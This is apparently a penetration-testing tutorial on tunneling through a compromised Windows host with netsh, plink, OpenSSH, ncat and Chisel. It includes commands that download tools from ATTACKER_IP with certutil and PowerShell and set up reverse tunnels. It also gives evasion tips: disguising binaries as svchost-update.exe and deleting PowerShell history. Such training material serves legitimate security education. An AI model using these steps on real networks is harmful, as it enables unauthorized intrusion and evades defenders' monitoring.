

# 🪟 Windows Tunneling Tools

> **Level: 🟡 Intermediate**
> Master pivoting and tunneling when your compromised host is a Windows machine.

---

## 📖 Table of Contents

1. [Why Windows Tunneling?](#-1-why-windows-tunneling)
2. [Tool #1: netsh portproxy](#-2-tool-1-netsh-portproxy)
3. [Tool #2: plink.exe (PuTTY CLI)](#-3-tool-2-plinkexe-putty-cli)
4. [Tool #3: Windows OpenSSH](#-4-tool-3-windows-openssh)
5. [Tool #4: ncat on Windows](#-5-tool-4-ncat-on-windows)
6. [Tool #5: Chisel on Windows](#-6-tool-5-chisel-on-windows)
7. [Tool Comparison](#-7-tool-comparison)
8. [Detection & Evasion](#-8-detection--evasion)
9. [Practice Scenarios](#-9-practice-scenarios)

---

## 🧠 1. Why Windows Tunneling?

In many penetration tests:

- 🔹 The **majority** of internal hosts are Windows
- 🔹 You compromise a Windows box first (phishing, web app, etc.)
- 🔹 You need to pivot through it to reach the internal network
- 🔹 Linux tools (socat, iptables) aren't available

### The Challenge

```
┌──────────────┐       ┌───────────────────┐       ┌──────────────┐
│   ATTACKER   │       │   COMPROMISED     │       │   INTERNAL   │
│   (Kali)     │──────→│   WINDOWS HOST    │──────→│   TARGETS    │
│              │       │                   │       │              │
│ How do you   │       │ No socat          │       │ 10.10.10.0/24│
│ tunnel       │       │ No iptables       │       │              │
│ through?     │       │ Limited tools!    │       │              │
└──────────────┘       └───────────────────┘       └──────────────┘
```

### Available Options on Windows

| Tool | Already Installed? | Requires Admin? | Best For |
|------|--------------------|-----------------|----------|
| **netsh** | ✅ Yes | ✅ Yes | Simple port forwarding |
| **plink.exe** | ❌ Upload needed | ❌ No | SSH tunneling from Windows |
| **Windows OpenSSH** | ✅ Win10+/Server 2019+ | ❌ No | SSH tunneling (native) |
| **ncat** | ❌ Upload needed | ❌ No | Quick port redirect |
| **Chisel** | ❌ Upload needed | ❌ No | Full tunneling, SOCKS |

---

## 🔧 2. Tool #1: netsh portproxy

### What It Is

`netsh interface portproxy` is a **built-in** Windows command for port forwarding. No downloads needed!

> ⚠️ **Requires Administrator privileges**

### Basic Port Forward

Forward traffic from one port to an internal host:

```cmd
netsh interface portproxy add v4tov4 ^
    listenport=4444 ^
    listenaddress=0.0.0.0 ^
    connectport=3306 ^
    connectaddress=10.10.10.5
```

### Diagram

```
Attacker connects to                         Traffic forwarded to
Windows Host:4444          ───────→          10.10.10.5:3306
                    (netsh portproxy)
```

### Syntax Breakdown

```
netsh interface portproxy add v4tov4
    listenport=<PORT>            ← Port to listen on (on this Windows machine)
    listenaddress=<IP>           ← IP to listen on (0.0.0.0 = all interfaces)
    connectport=<PORT>           ← Port to forward TO
    connectaddress=<IP>          ← IP to forward TO
```

### Available Modes

| Mode | Description |
|------|-------------|
| `v4tov4` | IPv4 to IPv4 (most common) |
| `v4tov6` | IPv4 to IPv6 |
| `v6tov4` | IPv6 to IPv4 |
| `v6tov6` | IPv6 to IPv6 |

### View Active Port Forwards

```cmd
netsh interface portproxy show all
```

Output:
```
Listen on ipv4:             Connect to ipv4:
Address         Port        Address         Port
--------------- ----------  --------------- ----------
0.0.0.0         4444        10.10.10.5      3306
```

### Delete a Port Forward

```cmd
netsh interface portproxy delete v4tov4 ^
    listenport=4444 ^
    listenaddress=0.0.0.0
```

### Reset All Port Forwards

```cmd
netsh interface portproxy reset
```

### ⚠️ Important: Open the Firewall!

netsh portproxy doesn't automatically open the firewall. You must add a rule:

```cmd
:: Allow inbound traffic on the listening port
netsh advfirewall firewall add rule ^
    name="Pivot Port 4444" ^
    dir=in ^
    action=allow ^
    protocol=TCP ^
    localport=4444

:: Clean up when done
netsh advfirewall firewall delete rule name="Pivot Port 4444"
```

### Multiple Port Forwards

```cmd
:: Web server
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=10.10.10.5

:: RDP
netsh interface portproxy add v4tov4 listenport=33389 listenaddress=0.0.0.0 connectport=3389 connectaddress=10.10.10.5

:: SMB
netsh interface portproxy add v4tov4 listenport=4445 listenaddress=0.0.0.0 connectport=445 connectaddress=10.10.10.5
```

### Enable IP Routing (if needed)

```cmd
:: Check if IP routing is enabled
reg query HKLM\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters /v IPEnableRouter

:: Enable IP routing
reg add HKLM\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters /v IPEnableRouter /t REG_DWORD /d 1 /f

:: Restart the Routing and Remote Access service
net stop RemoteAccess
net start RemoteAccess
```

### Limitations

| ❌ Limitation | Details |
|--------------|---------|
| TCP only | No UDP forwarding |
| Requires Admin | Need elevated privileges |
| No encryption | Traffic is in plaintext |
| Per-port only | Can't route entire subnets |
| Basic logging | Hard to monitor traffic |

---

## 🔧 3. Tool #2: plink.exe (PuTTY CLI)

### What It Is

**plink.exe** is the command-line version of PuTTY. It provides SSH tunneling capabilities on Windows — identical to the Linux `ssh` command.

### Download

```cmd
:: Download from official PuTTY site
:: https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

:: Or transfer from attacker
certutil -urlcache -split -f http://ATTACKER_IP/plink.exe C:\Windows\Temp\plink.exe
```

### Local Port Forwarding

```cmd
plink.exe -ssh -L 8080:10.10.10.5:80 -N user@ATTACKER_IP
```

Identical to SSH's `-L`:
```
Windows Host:8080 → SSH tunnel → ATTACKER → 10.10.10.5:80
```

> Wait, this is backwards! In most pentest scenarios, you want the attacker to access internal services. The typical flow with plink is:

### Remote (Reverse) Port Forwarding (Most Useful!)

```cmd
:: On the compromised Windows host
plink.exe -ssh -R 8080:10.10.10.5:80 -N -l kali -pw password ATTACKER_IP
```

This opens port **8080 on the ATTACKER** machine, forwarding to **10.10.10.5:80** in the internal network.

```
Attacker:8080 → SSH Tunnel → Windows Host → 10.10.10.5:80
```

### Dynamic Port Forwarding (SOCKS)

```cmd
plink.exe -ssh -D 9050 -N -l kali -pw password ATTACKER_IP
```

> ⚠️ With `-D`, the SOCKS proxy is on the **Windows** machine. For pentest, you usually want the SOCKS proxy on your Kali. Use remote dynamic forwarding or a different approach.

### Reverse Dynamic (SOCKS on Attacker)

```cmd
:: This requires OpenSSH 7.6+ on the SSH server (your Kali)
plink.exe -ssh -R 1080 -N -l kali -pw password ATTACKER_IP
```

Or use `-R` with a SOCKS-capable port:
```cmd
plink.exe -ssh -R 9050:127.0.0.1:1080 -N -l kali -pw password ATTACKER_IP
```

### Auto-accept Host Key

First-time SSH connections prompt for the host key. In non-interactive scenarios:

```cmd
:: Echo 'y' to auto-accept
echo y | plink.exe -ssh -R 8080:10.10.10.5:80 -N -l kali -pw password ATTACKER_IP
```

### plink Command Reference

| Flag | Meaning |
|------|---------|
| `-ssh` | Use SSH protocol |
| `-L port:host:port` | Local port forward |
| `-R port:host:port` | Remote (reverse) port forward |
| `-D port` | Dynamic SOCKS proxy |
| `-N` | No shell (tunnel only) |
| `-l user` | Username |
| `-pw password` | Password (⚠️ visible in process list) |
| `-i key.ppk` | Use PuTTY private key file |
| `-P port` | SSH port (if non-standard) |
| `-batch` | Don't prompt for user input |

> ⚠️ **Security Note**: Using `-pw` puts the password in the process list. Use SSH keys when possible.

---

## 🔧 4. Tool #3: Windows OpenSSH

### What It Is

Windows 10 (1809+) and Windows Server 2019+ include a **built-in OpenSSH client**. It works just like the Linux `ssh` command!

### Check If Available

```cmd
ssh -V
```

If installed, you'll see something like:
```
OpenSSH_for_Windows_8.1p1, LibreSSL 3.0.2
```

### Install If Missing

```powershell
# PowerShell (Admin)
# Check available
Get-WindowsCapability -Online | Where-Object Name -like '*OpenSSH*'

# Install client
Add-WindowsCapability -Online -Name OpenSSH.Client~~~~0.0.1.0
```

### Usage — Identical to Linux SSH!

```cmd
:: Local forward
ssh -L 8080:10.10.10.5:80 -N kali@ATTACKER_IP

:: Remote forward
ssh -R 8080:10.10.10.5:80 -N kali@ATTACKER_IP

:: Dynamic SOCKS
ssh -D 9050 -N kali@ATTACKER_IP

:: Background + no shell
ssh -L 8080:10.10.10.5:80 -N -f kali@ATTACKER_IP
```

### Advantages over plink

| Feature | plink | Windows OpenSSH |
|---------|-------|-----------------|
| Built-in | ❌ (need to upload) | ✅ (Win10+) |
| Syntax | PuTTY-style | Standard SSH |
| Key format | .ppk (PuTTY) | Standard OpenSSH keys |
| Familiarity | Less familiar | Same as Linux SSH |

---

## 🔧 5. Tool #4: ncat on Windows

### What It Is

**ncat** is the Nmap project's improved netcat. It supports SSL, IPv6, connection brokering, and more.

### Download

Download with Nmap or standalone from https://nmap.org/download.html

### Port Redirect

```cmd
ncat -lkp 4444 --sh-exec "ncat 10.10.10.5 3306"
```

| Flag | Meaning |
|------|---------|
| `-l` | Listen mode |
| `-k` | Keep open (accept multiple connections) |
| `-p 4444` | Listen on port 4444 |
| `--sh-exec` | Execute command for each connection |

### With SSL

```cmd
:: Generate certs first
ncat -lkp 4444 --ssl --sh-exec "ncat 10.10.10.5 3306"
```

### Limitations

- Single binary to upload
- Less feature-rich than Chisel for SOCKS
- Good for quick port redirects

---

## 🔧 6. Tool #5: Chisel on Windows

### Setup

```cmd
:: Download Windows binary
certutil -urlcache -split -f http://ATTACKER_IP/chisel.exe C:\Windows\Temp\chisel.exe

:: Or via PowerShell
Invoke-WebRequest -Uri http://ATTACKER_IP/chisel.exe -OutFile C:\Windows\Temp\chisel.exe
```

### Reverse SOCKS (Most Common)

```cmd
:: On attacker (Kali)
chisel server --port 8000 --reverse

:: On Windows compromised host
chisel.exe client ATTACKER_IP:8000 R:socks
```

### Specific Port Forward

```cmd
:: Reverse forward internal RDP
chisel.exe client ATTACKER_IP:8000 R:3389:10.10.10.5:3389
```

### Run in Background

```cmd
:: PowerShell
Start-Process -WindowStyle Hidden -FilePath C:\Windows\Temp\chisel.exe -ArgumentList "client ATTACKER_IP:8000 R:socks"

:: CMD
start /B chisel.exe client ATTACKER_IP:8000 R:socks
```

> 📝 For full Chisel documentation, see [03_chisel_tunneling.md](./03_chisel_tunneling.md).

---

## ⚖️ 7. Tool Comparison

| Feature | netsh | plink | Win OpenSSH | ncat | Chisel |
|---------|-------|-------|-------------|------|--------|
| **Built-in** | ✅ | ❌ | ✅ (Win10+) | ❌ | ❌ |
| **Admin needed** | ✅ | ❌ | ❌ | ❌ | ❌ |
| **SOCKS proxy** | ❌ | ✅ | ✅ | ❌ | ✅ |
| **Encryption** | ❌ | ✅ (SSH) | ✅ (SSH) | ✅ (SSL) | ✅ |
| **Needs SSH server** | ❌ | ✅ | ✅ | ❌ | ❌ |
| **Reverse tunnel** | ❌ | ✅ | ✅ | ❌ | ✅ |
| **Multi-port** | ✅ | ✅ | ✅ | One at a time | ✅ |
| **Stealth** | Good (native) | Medium | Good (native) | Medium | Good |
| **Ease of use** | Easy | Medium | Easy | Easy | Easy |

### Decision Flow



---

## 🛡️ 8. Detection & Evasion

### What Defenders Look For

| Tool | Detection Method |
|------|-----------------|
| netsh portproxy | Event log entries, `netsh show all` |
| plink.exe | Process name, network connections |
| SSH | SSH traffic on unusual ports |
| Chisel | HTTP tunnel patterns, binary name |

### Evasion Tips

```cmd
:: Rename binaries
rename chisel.exe svchost-update.exe
rename plink.exe system-check.exe

:: Run from less suspicious directories
copy chisel.exe C:\Windows\Temp\svchost-update.exe
C:\Windows\Temp\svchost-update.exe client ...

:: Use common ports
:: Chisel on port 443 (HTTPS) or 80 (HTTP) looks less suspicious
chisel.exe client ATTACKER_IP:443 R:socks
```

### Cleanup After Engagement

```cmd
:: Remove netsh rules
netsh interface portproxy reset
netsh advfirewall firewall delete rule name="Pivot Port 4444"

:: Remove uploaded tools
del C:\Windows\Temp\chisel.exe
del C:\Windows\Temp\plink.exe

:: Clear command history (PowerShell)
Remove-Item (Get-PSReadlineOption).HistorySavePath
```

---

## 🧪 9. Practice Scenarios

### Scenario 1: Quick netsh Redirect

```cmd
:: You have admin on a Windows server
:: Forward to internal web server
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=10.10.10.5
netsh advfirewall firewall add rule name="web" dir=in action=allow protocol=TCP localport=8080

:: From attacker
curl http://windows-host:8080
```

### Scenario 2: plink Reverse Tunnel

```cmd
:: No admin, need SOCKS proxy
:: Ensure SSH server is running on Kali
echo y | plink.exe -ssh -R 9050:127.0.0.1:1080 -N -l kali -pw kali 10.0.0.5

:: On Kali
proxychains nmap -sT -Pn 10.10.10.5
```

### Scenario 3: Chisel Full Pivot

```cmd
:: Best option — no SSH needed
:: Attacker
chisel server --port 443 --reverse

:: Windows target
chisel.exe client 10.0.0.5:443 R:socks

:: Attacker scans internal network
proxychains nmap -sT -Pn 10.10.10.0/24
```

---

## ⏮️ [← Ligolo-ng Mastery](./04_ligolo_ng_mastery.md) | ⏭️ [Proxychains & SOCKS →](./06_proxychains_socks.md)
